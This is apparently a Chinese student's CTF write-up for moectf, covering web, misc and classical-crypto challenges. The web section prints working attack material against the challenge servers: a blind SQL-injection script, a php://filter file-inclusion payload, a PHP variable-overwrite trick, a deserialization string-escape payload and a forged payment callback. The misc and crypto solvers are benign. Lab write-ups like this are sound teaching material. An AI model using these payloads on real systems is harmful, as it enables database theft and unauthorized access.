










## Begin

自己web方向，靠着py和(搜索引擎)a了misc和古典，果然web和misc是互通的(bushi，**证明了moectf对零基础真的很友好**

做出来了一点点reverse

可是web题真的好少😭

## Web

### ezhtml

web人都会的**F12**，看源代码里面的**evil.js**，就有flag



### web安全之入门指北

打开pdf翻到最后拿到flag(认真看完)

### cookiehead

复现时题目环境打不开了

应该是

```
X-Forwarded-For:127.0.0.1
Referer:127.0.0.1
cookie改一下
```

### God_of_Aim

打到十分，得到flag前半部分

```
moectf{Oh_you_can_a1m_
```

**打到十万分得到后半部分(bushi**

因为前半部分是以alert形式给到的，那盲猜后半部分也是如此

在**aimtrainer.js**中发现alert



复制下来，控制台输出一下得到后半部分flag

```
and_H4ck_Javascript}
```

### What are you uploading

随便上传个png，发现


bp抓包改下文件名再发送，就得到flag



### inclusion

经典的php伪协议

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```

### sqlmap_boy

环境没了，当时图方便直接盲注了

**exp**

```py
import requests

url='http://82.156.5.200:1045/login.php'
flag=''
for i in range(1,666):
    for j in range(32,128):
        data = {
            "username":f'1\'"||(ascii(substr((select(group_concat(flAg))from(flag)),{i},1))={j});#',
            'password':1
        }
        r=requests.post(url=url,data=data)
        #print(r.text)
        if '"code":"1"' in r.text:
            flag+=chr(j)
            print(flag)
            if j=='}':
                exit()
            break
```

### ezphp

```php
<?php

highlight_file('source.txt');
echo "<br><br>";

$flag = 'xxxxxxxx';
$giveme = 'can can need flag!';
$getout = 'No! flag.Try again. Come on!';
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($giveme);
}

if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
    exit($getout);
}

foreach ($_POST as $key => $value) {
    $$key = $value;
}

foreach ($_GET as $key => $value) {
    $$key = $$value;
}

echo 'the flag is : ' . $flag;

?>
```

考察变量覆盖，本题的核心就是不能改变flag原本的值

但是在**POST**部分

```php
$$key = $value;
```

如果传入了**flag=xx**，就会变成

```php
$($key) = xx;
$key = flag
$flag = xx;
```

所以**POST**不能传flag

那么**GET**就必须要传了(强制二选一)

保持flag不变，根据上面的思路

```php
?giveme=flag&flag=giveme
1: $giveme=$flag
2: $flag=$giveme
```

先用flag覆盖giveme，再用giveme覆盖flag

得到的还是flag

### baby_unserialize

```php
<?php
session_start();
highlight_file(__FILE__);

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

$r = $_GET['r'];
$s = $_GET['s'];

if(isset($r) && isset($s) ){
    $moe = new moectf($r,$s);
    $emo = str_replace('aiyo', 'ganma', serialize($moe));
    $_SESSION['moe']=base64_encode($emo);

}
```

a.php

```php
<?php
session_start();
highlight_file(__FILE__);

include('flag.php');

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

if($_COOKIE['moe'] == 1){
    $moe = unserialize(base64_decode($_SESSION['moe']));
    if($moe->token=='baizi'){
        echo $flag;
    }
}
```

`$emo = str_replace('aiyo', 'ganma', serialize($moe));`

看到这一句就能发现很明显的**反序列化字符串溢出**了

原本这样的序列化字符串

```php
O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}
```



箭头指的是**string b**的开头和结尾

经过**str_replace**后

```php
s:210:"O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"bganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganma";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}";
```

aiyo变成了ganma，字符串变长，但代表字符串长度的136仍未变

该字符串在经历反序列化时，只会取到第136位(也就是第一个箭头处)



而第二个箭头后的会被当做多余的丢弃



payload

```php
?r=a&s=baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}
新增cookie moe=1
然后访问a.php
```

### 支付系统

```py
import os
import uuid
from quart import Quart, render_template, redirect, jsonify, request, session
from hashlib import pbkdf2_hmac
from enum import IntEnum
from tortoise import fields
from tortoise.models import Model
from tortoise.contrib.quart import register_tortoise
from httpx import AsyncClient

app = Quart(__name__)
app.secret_key = os.urandom(16)


class TransactionStatus(IntEnum):
    SUCCESS = 0
    PENDING = 1
    FAILED = 2
    TIMEOUT = 3


class Transaction(Model):
    id = fields.IntField(pk=True)
    user = fields.UUIDField()
    amount = fields.IntField()
    status = fields.IntEnumField(TransactionStatus)
    desc = fields.TextField()
    hash = fields.CharField(64, null=True)

    def __init__(self, **kwargs):
        super().__init__()
        for k, v in kwargs.items():
            self.__setattr__(k, v)


async def do_callback(transaction: Transaction):
    async with AsyncClient() as ses:
        transaction.status = int(TransactionStatus.FAILED)
        data = (
            f'{transaction.id}'
            f'{transaction.user}'
            f'{transaction.amount}'
            f'{transaction.status}'
            f'{transaction.desc}'
        ).encode()
        await ses.post(f'http://localhost:8000/callback', data={
            'id': transaction.id,
            'user': transaction.user,
            'amount': transaction.amount,
            'desc': transaction.desc,
            'status': transaction.status,
            'hash': pbkdf2_hmac('sha256', data, app.secret_key, 2**20).hex()
        })


@app.before_request
async def create_session():
    if 'uid' not in session:
        session['uid'] = str(uuid.uuid4())
    session['balance'] = 0
    for tr in await Transaction.filter(user=session['uid']).all():
        if tr.status == TransactionStatus.SUCCESS:
            session['balance'] += tr.amount


@app.route('/pay')
async def pay():
    transaction = await Transaction.create(
        amount=request.args.get('amount'),
        desc=request.args.get('desc'),
        status=TransactionStatus.PENDING,
        user=uuid.UUID(session.get('uid'))
    )
    app.add_background_task(do_callback, transaction)
    return redirect(f'/transaction?id={transaction.id}')


@app.route('/callback', methods=['POST'])
async def callback():
    form = dict(await request.form)
    data = (
        f'{form.get("id")}'
        f'{form.get("user")}'
        f'{form.get("amount")}'
        f'{form.get("status")}'
        f'{form.get("desc")}'
    ).encode()
    k = pbkdf2_hmac('sha256', data, app.secret_key, 2**20).hex()
    tr = await Transaction.get(id=int(form.pop('id')))
    if k != form.get("hash"):
        return '403'
    form['status'] = TransactionStatus(int(form.pop('status')))
    tr.update_from_dict(form)
    await tr.save()
    return 'ok'


@app.route('/transaction')
async def transaction():
    if 'id' not in request.args:
        return '404'
    transaction = await Transaction.get(id=request.args.get('id'))
    return await render_template('receipt.html', transaction=transaction)


@app.route('/flag')
async def flag():
    return await render_template(
        'flag.html',
        balance=session['balance'],
        flag=os.getenv('FLAG'),
    )


@app.route('/')
@app.route('/index.html')
async def index():
    with open(__file__) as f:
        return await render_template('source-highlight.html', code=f.read())


register_tortoise(
    app,
    db_url="sqlite://./data.db",
    modules={"models": [__name__]},
    generate_schemas=True,
)

if __name__ == '__main__':
    app.run()
```

非常有意思的题，读懂代码就能做

首先访问 (相当于新建账户？)
`/pay?amount=1000&desc=0`这个**0**很重要，后面你会知道
然后你会得到一个二维码，这里是系统内对你的信息的存储
你可以看到你的**status**为**TransactionStatus.FAILED**，也就是无法充值(**false对应的int值为2**)

接下来就是想办法将你账户里的钱充值到该系统里(自己的理解)，也就是将**false**改为**true**(**对应的int值为0**)

也就是**callback**方法

这里需要提交一个表单，将你提交的信息与系统存储的信息经过加密后对比是否一样

**html表单**

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>表单提交示例 - 基本表单提交</title>
</head>
<body>
<form action="http://fake-pay.moectf.challenge.ctf.show/callback" method="post" >
    id<input id="id" type="number" name="id" />
    user<input id="user" type="text" name="user" />
    amount<input id="amount" type="number" name="amount" />
    status<input id="status" type="text" name="status" />
    desc<input id="desc" type="text" name="desc" />
    hash<input id="hash" type="text" name="hash" />
    <input type="submit" value="Submit" />
</form>

</body>
</html>
```

然后你会发现 你的**desc**是可以会空的

前面的全与你的信息一样

**amount填10002 status填0 desc为空**

传上去后整体字符串未变，加密也不变，状态变为**true**，充值成功！

## 隐写等杂项

### Hide-and-seek

打开是个pdf文件，flag被图遮住了

直接 ctrl+A 全选复制 得到flag

```
moectf{Hey_U_ve_f0und_m3!}
```

### Misc杂项之入门指北

最后面有段很明显的摩斯密码

```
.-- . .-.. ..--- --- -- . ..--.- ....- --- ..--.- -- .. ...-- -.-. ..--.- .---- ..- -.-. -.- -.-- -.-.--
```

找个网站解密得到flag

### Rabbit

图片隐写，用010打开，翻到最后有段奇怪的字符串

结合题目**rabbit**，发现是个**rabbit加密**

在线网站解密，无密码

得到flag

### 小纸条



在别人写的misc隐写总结中对比了半天，发现是**猪圈密码**

在线网站对着明显的特征解密就行

### 寻找黑客的家

米神倒了(哭腔😭)

直接搜汉明宫，第一个就是

### Locked bass

结合题目描述就可以猜到是伪加密


**50 4B 03 04**后的第三位为偶数，证明没有加密


**50 4B 01 02**后的第五位为奇数，识别为加密

改为偶数即可解压

解压完成后得到一段**base64**，解码就是flag

### 调查问卷

喜闻乐见的问卷题

### zip套娃

010打开可以看到是**真加密**

没什么条件，那就直接ARCHPR爆破得到密码1235

解压出来又是一层压缩包，前七位是1234567，爆破后三位即可



解压得到**flag**

### usb

附件是一个**usb**流量包，经简单搜索，可以了解到usb流量将键鼠的输入记录下来

所以要么是鼠标移动画出的flag(**通过记录每个像素点**)，要么是键盘直接输入的flag(**直接记录键盘输入的值**)

```sh
tshark -r usb.pcapng -T fields -e usb.capdata > usbdata.txt
```

先使用**tshark**提出键鼠那一块的数据(**长度为16，键盘数据**)

若有空行，则去掉空行

若没有冒号，则脚本加上冒号

```python
f=open('usbdata.txt','r')
fi=open('out.txt','a')
while 1:
    a=f.readline().strip()
    if a:
        if len(a)==16: # 鼠标流量的话len改为8
            out=''
            for i in range(0,len(a),2):
                if i+2 != len(a):
                    out+=a[i]+a[i+1]+":"
                else:
                    out+=a[i]+a[i+1]
            fi.write(out)
            fi.write('\n')
    else:
        break

fi.close()
```

脚本转换为flag

```python
normalKeys = {
    "04":"a", "05":"b", "06":"c", "07":"d", "08":"e",
    "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j",
     "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o",
      "13":"p", "14":"q", "15":"r", "16":"s", "17":"t",
       "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y",
        "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4",
         "22":"5", "23":"6","24":"7","25":"8","26":"9",
         "27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t",
         "2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\",
         "32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".",
         "38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>",
         "3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>",
         "44":"<F11>","45":"<F12>"}
shiftKeys = {
    "04":"A", "05":"B", "06":"C", "07":"D", "08":"E",
     "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J",
      "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O",
       "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T",
        "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y",
         "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$",
          "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")",
          "28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>",
          "2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"",
          "34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>",
          "3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>",
          "41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
output = []
keys = open('out.txt')
for line in keys:
    try:
        if line[0]!='0' or (line[1]!='0' and line[1]!='2') or line[3]!='0' or line[4]!='0' or line[9]!='0' or line[10]!='0' or line[12]!='0' or line[13]!='0' or line[15]!='0' or line[16]!='0' or line[18]!='0' or line[19]!='0' or line[21]!='0' or line[22]!='0' or line[6:8]=="00":
             continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]],[shiftKeys[line[6:8]]]][line[1]=='2']
        else:
            output += ['[unknown]']
    except:
        pass

keys.close()

flag=0
print("".join(output))
for i in range(len(output)):
    try:
        a=output.index('<DEL>')
        del output[a]
        del output[a-1]
    except:
        pass

for i in range(len(output)):
    try:
        if output[i]=="<CAP>":
            flag+=1
            output.pop(i)
            if flag==2:
                flag=0
        if flag!=0:
            output[i]=output[i].upper()
    except:
        pass

print ('output :' + "".join(output))
```


### Nyanyanya!

010打开，翻到最后有个LSB



LSB拿到flag

### What do you recognize me by?

用010打开，前四位为 **89 50 4E 6C**

结合题目信息，疑似改了文件头

改为**89 50 4E 47** PNG的文件头

打开是一个二维码，扫二维码得到flag

### 想听点啥

一个加密的压缩包和一个.mscz文件

搜索后发现可以用MuseScore 3打开(当时梯子⑧太行，下了一个小时也没下好，所以去找**hyp**要了软件，感谢**hyp**捏🥰)



查看乐谱得到压缩包密码

给出了加密算法和加密后的数据

一个简单的异或加密，已知前面为**moectf{**

解密即可

```python
flag = 'moectf{'
str0=r'abcderghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}-=+/\|><.,?;:~!@#$%^&*()'
def encrypt(src: str) -> bytes:
    return bytes([ord(src[i]) ^ ord(src[i-1]) for i in range(1, len(src))])

f=open("flag.txt",'rb')
data=f.read()

pre=ord('m')
for i in data:
    flag+=chr(i^pre)
    pre=i^pre
print(flag)
```

### H■m■i■g

做这道题的时候不知道什么汉明码，也没以为题目就是考点

然后....嗯看

**最开始的错误想法**
给出了三个文件，一个加密，一个解密，一个加密后的数据
所以我要做的就是补全解密脚本

**alice.py**

```python
from secret import mytext#It's in alice's device. We can't know!
from polar_router import send_over_weak_noisy_channel#how it works doesn't matter, u don't need this lib
from Crypto.Util.number import bytes_to_long
from functools import reduce

def hamming_encode(bitsblock):#do u know how it works?
    for t in range(4):
        bitsblock[1<<t]=reduce(
            lambda x,y:x^y ,
            [bit for i,bit in enumerate(bitsblock) if i&(1<<t)]
            )
    return bitsblock

bintxt=bin(bytes_to_long(mytext))[2:]
lenbintxt=len(bintxt)
assert lenbintxt%11==0
blocks=lenbintxt//11
bitlist=list(map(int,bintxt))
raw_msg=[[0]*3+[bitlist[i]]+[0]+bitlist[i+1:i+4]+[0]+bitlist[i+4:i+11] for i in range(0,lenbintxt,11)]

encoded_msg=[hamming_encode(raw_msg[i]) for i in range(blocks)]

send_over_weak_noisy_channel(encoded_msg)#send it
```

然而在我读懂了这个脚本以及与**noisemsg.txt**对照数次后，发现第一位一定为0的值为什么在**noisemsg.txt**中有点变为1了？？

然后在反反复复确认了之后，发现是原来的数据在传输过程中某一位发生了改变，而在编码过程中是有许多多余位的，所以你完完全全可以纠正这些数据

**bob.py**

```python
#from polar_router import recv_over_weak_noisy_channel#how it works doesn't matter, u don't need this lib, just ignore it
from Crypto.Util.number import long_to_bytes#really useful! 
from noisemsg import noisemsg

def hamming_correct(bitblock):
    for i in range(16):
        if bitblock[1]^bitblock[3]^bitblock[5]^bitblock[7]^bitblock[9]^bitblock[11]^bitblock[13]^bitblock[15]!=0 or bitblock[2]^bitblock[3]^bitblock[6]^bitblock[7]^bitblock[10]^bitblock[11]^bitblock[14]^bitblock[15]!=0 or bitblock[4]^bitblock[5]^bitblock[6]^bitblock[7]^bitblock[12]^bitblock[13]^bitblock[14]^bitblock[15]!=0 or bitblock[8]^bitblock[9]^bitblock[10]^bitblock[11]^bitblock[12]^bitblock[13]^bitblock[14]^bitblock[15]!=0:
            bitblock[i]=int(not bitblock[i])
            if bitblock[1]^bitblock[3]^bitblock[5]^bitblock[7]^bitblock[9]^bitblock[11]^bitblock[13]^bitblock[15]==0 and bitblock[2]^bitblock[3]^bitblock[6]^bitblock[7]^bitblock[10]^bitblock[11]^bitblock[14]^bitblock[15]==0 and bitblock[4]^bitblock[5]^bitblock[6]^bitblock[7]^bitblock[12]^bitblock[13]^bitblock[14]^bitblock[15]==0 and bitblock[8]^bitblock[9]^bitblock[10]^bitblock[11]^bitblock[12]^bitblock[13]^bitblock[14]^bitblock[15]==0:
                bitblock[i]=int(not bitblock[i])
                #print(i)
                return i
            else:bitblock[i]=int(not bitblock[i])
        #else :print('no')
    return 0
    #you should write this function, to help polar decode the msg
    #Good luck and take it easy!

def decode(msg):
    blocks=len(msg)
    bitlist=[]
    #Let's cancel the noise...
    for i in range(blocks):
        wrongbitpos=hamming_correct(msg[i])
        msg[i][wrongbitpos]=int(not msg[i][wrongbitpos])
        #add corrected bits to a big list
        bitlist.extend([msg[i][3]]+msg[i][5:8]+msg[i][9:16])
    #...then, decode it!
    totallen=len(bitlist)
    bigint=0
    for i in range(totallen):
        bigint<<=1
        bigint+=bitlist[i]
    return long_to_bytes(bigint)

msg=decode(noisemsg)
print(msg)#Well done
```

### bell 202

经过搜索得到这个[GACTF oldmodem writeup](https://blog.csdn.net/Alexhcf/article/details/108333175)

安装**minimodem**后直接使用得到**flag**

```sh
xlccccc@xl-pc:/ctf/misc$ minimodem -r -f moe_modem.wav 1200
### CARRIER 1200 @ 1200.0 Hz ###
moectf{zizi_U_he@rd_the_meanin9_beh1nd_the_s0und}
### NOCARRIER ndata=49 confidence=4.894 ampl=1.001 bps=1200.00 (rate perfect) ###
```

### cccrc

打开压缩包发现有几个文件

分别crc32碰撞，得到的hex转为字符串就是flag

## Classic crypto

### ABCDEFG~

```
moectf{18 24 26 13 08 18 13 20 26 15 11 19 26 25 22 07 08 12 13 20}
```

可以发现数字都小于26，结合题目描述

反着打字母表输出就好啦

```python
str='ABCDEFGHIJKLMNOPQRSTUVWXYZ'
b=str[::-1]
num=[18,24,26,13,8,18,13,20,26,15,11,19,26,25,22,7,8,12,13,20]
flag='moectf{'
for i in range(len(num)):
    flag+=b[num[i]-1]
flag+='}'
print(flag)
```

### 小小凯撒

直接在线工具枚举所有的可能没有拿到flag

凯撒的变体一般是：`大小写字母 表长52` `偏移量并非默认字母表的顺序`

而这题大小写都有，第一种就很有可能了

```python
so='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
a='kqEftuEUEftqOADDqoFRxmsOAzsDmFGxmFuAzE'
c=[]
for i in a:
    for j in range(0,51):
        if i==so[j]:
            c.append(j)

for i in range(1,52):
    for j in c:
        if(j-i<0):
            print(so[j-i+52],end='')
        else:
            print(so[j-i],end='')
    print('\n')
```

在枚举出来的所有情况中就能发现


### 凯撒变异了

题目描述给了**114514**(警觉)

很可能就是改了偏移量， ＋ 或 -

```python
so='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
a='ZpyLfxGmelDeftewJwFbwDGssZszbliileadaa'
c=[]
d=[1,1,4,5,1,4]
for i in a:
    for j in range(0,52):
        if i==so[j]:
            c.append(j)
print(c)
t=0
for j in c:
    if t==len(d):
        t=0
    if(j-d[t]<0):
        print(so[j-d[t]+52],end='')
    else:
        print(so[j-d[t]],end='')
    t+=1
print('\n')
```

运行得到**flag**

### 叫我棋王

```
1432145551541131233313542541343435232145215423541254443122112521452323
```

结合题目描述和搜索不难发现这是棋盘密码

但是默认的密钥并未得到flag

于是可以猜到就是换了密钥

经典的棋盘是将**ij**放在一起的，这里仍然默认**ij**是一起的

```python
a=[14,32,14,55,51,54,11,31,23,33,13,54,25,41,34,34,35,23,21,45,21,54,23,54,12,54,44,31,22,11,25,21,45,23,23]
str='abcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyzabcdefghiklmnopqrstuvwxyz'

for i in range(0,26):
    j=0
    c = []
    for count in range(0,5):
        c.append([str[i+j],str[i+j+1],str[i+j+2],str[i+j+3],str[i+j+4]])
        j+=5
    for k in a:
        print(c[int(k%10)-1][int(k/10)-1],end='')
    print(c)
    print('\n')
```

当时图方便就这样写了🤡


所有密钥中找到**flag**

### Vigenère

Vigenere加密在字节足够多的情况下，可以直接爆破出密钥

找个[在线工具](https://www.guballa.de/vigenere-solver)直接爆出原文即可

```
